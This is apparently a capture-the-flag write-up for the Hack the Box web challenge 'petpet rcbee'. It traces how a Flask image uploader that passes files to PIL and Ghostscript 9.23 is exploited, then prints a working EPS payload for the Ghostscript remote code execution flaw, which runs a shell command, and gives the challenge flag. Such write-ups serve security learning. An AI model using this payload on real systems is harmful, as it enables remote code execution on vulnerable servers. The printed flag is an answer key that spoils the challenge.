


# Writeup "petpet rcbee"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                    </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/petpet-rcbee              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-petpet-rcbee-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                                   </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                            </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-09                                                      </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-09                                                      </td></tr>
</table>

## Description

> Bees are comfy 🍯  
> bees are great 🌟🌟🌟  
> this is a petpet generator 👋  
> let's join forces and save the bees today! 🐝

## Solution

We receive an IP and port to a server and a zip file containing a _Python Flask_ application; this is the same application which is deployed on the server. The application allows the user to upload an image of a bee and displays an animation of a hand petting the bee:

<p align="center">
   
</p>

Looking at the source code, we see that the application checks whether the file has one of the three allowed file extensions `png`, `jpg` or `jpeg`. There seems to be no check if the file really is an image file. Since the uploaded file is the only user-influenced variable, we assume that the vulnerability will be along the image processing code path. The file `util.py`, which contains most of the application's logic, imports the package `PIL` for image processing.

Some research reveals that there were several _remote code executions_ (RCE) in _Ghostscript_ which is a dependency of `PIL`. According to the dockerfile, the Ghostscript version is 9.23. After a web search for _"python PIL rce"_, we discover a page explaining an exploit which works for our Ghostscript version[^1].

The payload is a text file with the file extension `jpg`. The first line is read by PIL and identifies the file to be an EPS file. This will prompt the program to load the file using Ghostscript. An arbitrary shell command can be inserted in the last line.

We can see in our copy of the source code that the file `flag` is located in the same directory as the application root directory which is not accessible from the Internet. The goal is to copy this file to a directory which we can access. In the `config.py` file, we find the absolute path of the directory where the application stores uploaded images: `/app/application/static/petpets`.

With these informations, we can adapt the payload as follows:

``` ps
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

Our shell command `cp /app/flag /app/application/static/petpets/flag.txt` copies the flag to the public directory and adds a `txt` file extension, so we can easily open the file in our web browser:

<p align="center">
   
</p>

The flag is:

```
HTB{c0mfy_bzzzzz_rcb33s_v1b3s}
```

### Sources

[^1]: https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509
